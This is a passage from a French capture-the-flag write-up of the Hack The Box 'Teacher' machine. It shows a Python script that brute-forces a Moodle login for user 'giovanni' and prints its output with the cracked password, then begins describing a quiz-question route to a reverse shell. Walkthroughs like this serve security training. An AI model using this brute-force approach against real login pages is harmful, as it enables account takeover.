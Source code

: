             for convert_password in self.end_password:
                plain_password = "Th4C00lTheacha" + convert_password.strip("\n")
                plain_requests = {"anchor":"", "username":"giovanni", "password":plain_password, "rememberusername":"1"}

                req_http = requests.post(self.target_url + self.path_url, data=plain_requests).text
                if("Invalid login" in "".join(req_http))     :  print("[-] Password not cracked : %s") %(plain_password)
                if not("Invalid login" in "".join(req_http)) :	print("\n[+] Password cracked with success : %s\n" %(plain_password)), sys.exit(0)

    if __name__ == "__main__":
        req = Teacher()
        req.send_req()

Donc si nous lançons le script :

    root@Seyptoo:~/htb/writeup/Teacher# python teacher_bf.py 
    [-] Password not cracked : Th4C00lTheacha*
    [-] Password not cracked : Th4C00lTheacha=
    [-] Password not cracked : Th4C00lTheacha!
    [-] Password not cracked : Th4C00lTheacha/
    [-] Password not cracked : Th4C00lTheacha_
    [-] Password not cracked : Th4C00lTheacha1
    [-] Password not cracked : Th4C00lTheacha2
    [-] Password not cracked : Th4C00lTheacha3
    [-] Password not cracked : Th4C00lTheacha4
    [-] Password not cracked : Th4C00lTheacha5
    [-] Password not cracked : Th4C00lTheacha6
    [-] Password not cracked : Th4C00lTheacha7
    [-] Password not cracked : Th4C00lTheacha8
    [-] Password not cracked : Th4C00lTheacha9

    [+] Password cracked with success : Th4C00lTheacha#
    
Donc le mot de passe est Th4C00lTheacha#, on peut se connecter sans aucun problème et d'énumérer le service. Donc si nous regardons les messages privées de l'utilisateur nous avons des informations assez sympathique.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/16/6/1555753937-capture-du-2019-04-20-11-52-07.png)](https://image.noelshack.com/fichiers/2019/16/6/1555753937-capture-du-2019-04-20-11-52-07.png)

Nous devons crée un QUIZ, ce site vous montre très simplement comment faire un QUIZ https://teaching.unsw.edu.au/moodle-quiz. <br />

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/16/6/1555754559-capture-du-2019-04-20-12-02-21.png)](https://image.noelshack.com/fichiers/2019/16/6/1555754559-capture-du-2019-04-20-12-02-21.png)

Une fois que vous avez créez votre QUIZ il vous suffit de cliquez sur Add > A New Question > Et ensuite de séléctionner Calculated et ensuite de cliquez sur Add. Il rédirige vers une page, et pour les champs obligatoires, mettez quelque chose de random, il y'a une partie très importante pour effectuer notre reverse shell

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/16/6/1555754788-capture-du-2019-04-20-12-06-19.png)](https://image.noelshack.com/fichiers/2019/16/6/1555754788-capture-du-2019-04-20-12-06-19.png)
